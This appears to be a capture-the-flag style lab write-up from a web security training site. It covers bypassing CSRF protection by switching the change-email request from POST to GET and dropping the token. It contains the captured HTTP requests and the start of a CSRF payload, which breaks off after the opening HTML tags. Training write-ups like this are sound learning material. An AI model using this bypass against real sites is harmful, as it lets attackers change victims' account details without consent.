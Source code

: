 # CSRF where token validation depends on request method
Change victim's email address
## Observations
- Can login with default account. 
- Can change email address with a CSRF token on the POST request:
Original request:
```
POST /my-account/change-email HTTP/2
Host: 0acf00e803bb5468805b0dad00750023.web-security-academy.net
Cookie: session=opYFqrm5L3kcHFyuZXtJYcf86AML1iS6
Content-Length: 60
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="139", "Not;A=Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-US,en;q=0.9
Origin: https://0acf00e803bb5468805b0dad00750023.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0acf00e803bb5468805b0dad00750023.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

email=test%40email.com&csrf=LVP4qqjEnqIfkqdQnDQNMGtII14tKuzz
```
Modified request with Burp's change request type function and cut the CSRF token off the URL:
```
GET /my-account/change-email?email=test%40foo.com HTTP/2
Host: 0acf00e803bb5468805b0dad00750023.web-security-academy.net
Cookie: session=opYFqrm5L3kcHFyuZXtJYcf86AML1iS6
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="139", "Not;A=Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-US,en;q=0.9
Origin: https://0acf00e803bb5468805b0dad00750023.web-security-academy.net
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0acf00e803bb5468805b0dad00750023.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```
Generated a CSRF payload with Burp but it defaults to a form (POST) so I modified it to just pull the script source with the proper payload:
```
<html>
  <body>
```